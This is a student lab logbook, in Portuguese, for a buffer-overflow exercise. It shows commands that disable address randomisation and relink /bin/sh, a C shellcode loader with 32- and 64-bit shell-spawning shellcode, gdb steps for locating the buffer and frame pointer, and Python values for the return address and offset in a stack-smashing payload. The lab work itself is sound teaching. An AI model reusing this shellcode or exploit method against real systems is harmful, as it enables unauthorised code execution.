 # LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```c
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2

Após analisar o ficheiro stack.c, reparamos que a vulnerabilidade tratava-se do seguinte: a função strcpy é usada para copiar o conteúdo do parâmetro str para o array buffer. No entanto, a função strcpy não tem verificação para garantir que o tamanho da string (que pode ter até um máximo de 517) não exceda o tamanho do buffer (BUF_SIZE = 100). Se o comprimento da stringstr for maior que o tamanho do buffer, irá substituir a memória adjacente, levando a um comportamento inesperado, que neste caso podemos aproveitar para explorar a vulnerabilidade.

Também reparamos que executando o make, é criado vários ficheiro do género stack-Lx , onde x varia entre 1 e 4. A diferença entre estes ficheiros é o valor do BUF_SIZE.

![files](Images/files.png)

## Task 3

Primeiramente, criamos um ficheiro badfile e executamos o make para criar os ficheiros necessários para fazer debug,e executamos os seguintes comandos:

```
$ touch badfile 
$ gdb stack-L1-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p $ebp # Obtemos o valor do ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

![code1](Images/code1.png)
![code1](Images/code2.png)

Após obtermos os valores necessários, vamos usar o programa python para colocar conteúdo no nosso badfile, mas para tal temos de fazer alterações necessárias para funcionar:

Na variável shellcode vamos meter o valor shellcode de 32-bits que executa uma shell:
```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

De seguida, alterou-se o valor do start para guardar o valor do shell code no fim da lista.

```py
start = 517-len(shellcode)
```

Foi calculado o novo endereço de retorno que aponta para o código do shell a ser executado.

```py
ret    = 0xffffcaf8 + start
```

Usando os dois endereços obtidos durante o debug, determinou-se a localização do endereço de retorno em relação ao início do array (offset)

```py
offset = 0xffffcaf8 - 0xffffca8c + 4
```




